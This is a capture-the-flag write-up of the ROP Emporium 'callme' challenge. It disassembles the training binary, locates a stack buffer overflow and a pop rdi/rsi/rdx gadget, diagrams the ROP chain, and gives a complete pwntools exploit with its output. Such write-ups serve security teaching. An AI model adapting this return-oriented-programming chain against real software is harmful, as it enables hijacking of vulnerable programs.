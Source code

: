# ROP - Callme


## Description 

This challenge has been taken from https://ropemporium.com/challenge/callme.html.
The purpose is to change the flow of execution such that the functions ```callme_one, callme_two,``` and ```callme_three``` are called in sequence with ```0xdeadbeefdeadbeef```, ```0xcafebabecafebabe```, and ```0xd00df00dd00df00d``` as parameters for each of them.
More information in the linked website.

## How to build the ROP chain

Download the challenge:
```sh
$ curl --output callme.zip https://ropemporium.com/binary/callme.zip
$ unzip callme.zip && rm callme.zip
```

First, let's see the function written by the programmer:
```sh
$ rabin2 -qs callme | grep -ve imp -e ' 0 '
```

```asm
0x00601070 8 stdout
0x00601078 1 completed.7698
0x00400898 90 pwnme
0x004008f2 74 usefulFunction
0x004009b0 2 __libc_csu_fini
0x00601070 8 stdout@@GLIBC_2.2.5
0x004009c0 4 _IO_stdin_used
0x00400940 101 __libc_csu_init
0x00400790 2 _dl_relocate_static_pie
0x00400760 43 _start
0x00400847 81 main
```

Enter to pwndbg (```gdb-pwndbg callme```) and disassemble ```pwnme``` and ```usefulFunction``` since we're interested in them:

```asm
pwndbg> disass pwnme
Dump of assembler code for function pwnme:
   0x0000000000400898 <+0:     push   rbp
   0x0000000000400899 <+1:     mov    rbp,rsp
   0x000000000040089c <+4:     sub    rsp,0x20
   0x00000000004008a0 <+8:     lea    rax,[rbp-0x20]
   0x00000000004008a4 <+12:    mov    edx,0x20
   0x00000000004008a9 <+17:    mov    esi,0x0
   0x00000000004008ae <+22:    mov    rdi,rax
   0x00000000004008b1 <+25:    call   0x400700 <memset@plt
   0x00000000004008b6 <+30:    mov    edi,0x4009f0
   0x00000000004008bb <+35:    call   0x4006d0 <puts@plt
   0x00000000004008c0 <+40:    mov    edi,0x400a13
   0x00000000004008c5 <+45:    mov    eax,0x0
   0x00000000004008ca <+50:    call   0x4006e0 <printf@plt
   0x00000000004008cf <+55:    lea    rax,[rbp-0x20]
   0x00000000004008d3 <+59:    mov    edx,0x200
   0x00000000004008d8 <+64:    mov    rsi,rax
   0x00000000004008db <+67:    mov    edi,0x0
   0x00000000004008e0 <+72:    call   0x400710 <read@plt
   0x00000000004008e5 <+77:    mov    edi,0x400a16
   0x00000000004008ea <+82:    call   0x4006d0 <puts@plt
   0x00000000004008ef <+87:    nop
   0x00000000004008f0 <+88:    leave  
   0x00000000004008f1 <+89:    ret    
End of assembler dump.
```

As we can see there's a ```rax,[rbp-0x20]``` instruction before the read operation. Here ```0x20``` is subtracted from ```rbp``` since they're the bytes allocated to store the input string (32 bytes): if more chars are inserted it's possible to overwrite the return address of this function, so this is the point where the flow of execution will be changed by us.

```asm
pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x00000000004008f2 <+0:     push   rbp
   0x00000000004008f3 <+1:     mov    rbp,rsp
   0x00000000004008f6 <+4:     mov    edx,0x6
   0x00000000004008fb <+9:     mov    esi,0x5
   0x0000000000400900 <+14:    mov    edi,0x4
   0x0000000000400905 <+19:    call   0x4006f0 <callme_three@plt
   0x000000000040090a <+24:    mov    edx,0x6
   0x000000000040090f <+29:    mov    esi,0x5
   0x0000000000400914 <+34:    mov    edi,0x4
   0x0000000000400919 <+39:    call   0x400740 <callme_two@plt
   0x000000000040091e <+44:    mov    edx,0x6
   0x0000000000400923 <+49:    mov    esi,0x5
   0x0000000000400928 <+54:    mov    edi,0x4
   0x000000000040092d <+59:    call   0x400720 <callme_one@plt
   0x0000000000400932 <+64:    mov    edi,0x1
   0x0000000000400937 <+69:    call   0x400750 <exit@plt
End of assembler dump.
```

This function is useful because:
- we can see that edx, esi, edi are the three registers used to store the parameters
- it contains the instruction addresses of the function calls (```callme_one, callme_two, callme_three```).

Since it's necessary to store values into edx, esi, edi, we need to find gadgets in the executables e.g. instructions which pop values in those registers and ends with a ret. ```ropper``` is a useful tool to find the available ones:

```sh
$ ropper -f callme
```

We can note that there's a gadget which it's the one we was looking for:


```0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; ```

Now we have all the elements to build a rop chain.
Here's how the stack should be structured before the ret instruction in the ```pwnme``` function:

```asm
|                    |
|                    |
|      p_gadget      |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
|     callme_one     |
|      p_gadget      |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
|     callme_two     |
|      p_gadget      |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
|    callme_three    |
|        ...         |
----------------------
          |
          V
|                    |
|                    |
| 0x000000000040093c |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
| 0x0000000000400720 |
| 0x000000000040093c |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
| 0x0000000000400740 |
| 0x000000000040093c |
| 0xdeadbeefdeadbeef |
| 0xcafebabecafebabe |
| 0xd00df00dd00df00d |
| 0x00000000004006f0 |
|        ...         |
----------------------
        STACK
```

## Exploit

```python
import pwn

p = pwn.process("./callme")

gdb_cmd = [
        'set disassembly-flavor intel',
        #'b *0x0000000000400735',
        #'b *0x0000000000400741',
        'c',
        ]

pwn.gdb.attach(p, gdbscript='\n'.join(gdb_cmd))

def build_callme_payload(p_callme):
    # rdi: first param
    # rsi: second "
    # rdx: third "

    rdi = 0xdeadbeefdeadbeef
    rsi = 0xcafebabecafebabe
    rdx = 0xd00df00dd00df00d
    return pwn.p64(rdi) + pwn.p64(rsi) + pwn.p64(rdx) + pwn.p64(p_callme)

# 0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
p_gadget = pwn.p64(0x000000000040093c)

# start building payload
payload = p_gadget * 6
# Callme One
payload += build_callme_payload(0x400720)
# Callme Two
payload += p_gadget
payload += build_callme_payload(0x400740)
# Callme three
payload += p_gadget
payload += build_callme_payload(0x4006f0)

p.recvuntil('\n>')
p.sendline(payload)

p.interactive()
```
```sh
$ python3 exploit.py

[+] Starting local process './callme': pid 15670
[*] running in new terminal: ['/usr/bin/gdb', '-q', './callme', '15670', '-x', '/tmp/pwnsm5xq4d2.gdb']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
 Thank you!
[*] Process './callme' stopped with exit code 0 (pid 15670)
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```
